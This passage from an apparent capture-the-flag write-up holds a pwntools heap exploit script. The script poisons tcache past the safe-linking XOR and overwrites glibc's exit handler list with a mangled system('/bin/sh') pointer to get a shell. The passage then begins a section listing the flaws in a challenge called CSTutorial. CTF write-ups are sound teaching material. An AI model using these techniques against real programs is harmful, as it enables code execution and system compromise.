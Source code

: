 ```python
delete(1)

create(0x50, b"A")
create(0x50, b"B")
create(0x50, b"C")
delete(2)
delete(1)
delete(0)
create(0x50, b"C")
#p64(e.got.free ^ ((heap_leak+0x2a0) >> 12)))
update(123, p64(xor_key ^ (heap_leak >> 12)))
create(0x50, b"D")
create(0x50, b"")

xor_key = output(2)
p.recvuntil(b"message:\n")
xor_key = u64(p.recvline()[31:39])

delete(0)
delete(1)

create(0x60, b"A")
create(0x60, b"B")
create(0x60, b"C")
delete(3)
delete(1)
delete(0)
create(0x60, b"C")
#p64(e.got.free ^ ((heap_leak+0x2a0) >> 12)))
# update(123, b"A"*8)
"""
0x7f06e8239f00 <initial>:       0x0000000000000a41      0x000000000000000c
0x7f06e8239f10 <initial+16>:    0x0000000000000004      0x4d206e7c920b68a1
"""
update(123, p64(exit_funcs ^ ((heap_leak+0x160) >> 12)))
create(0x60, b"A")
create(0x60, b"\x00"*8 + p64(0xc) + p64(4) + p64(rol(libc.sym.system ^ xor_key, 0x11, 64)) + p64(next(libc.search(b'/bin/sh'))))

p.sendline(b"E")
# gdb.attach(p)

p.interactive()
```

## CSTutorial

CSTutorial featured 3 very powerful vulnerabilities.

1. scanf allows us to have a buffer overflow in BSS
2. OOB array indexing on memcpy
3. integer overflow on calloc to bypass upper bounds
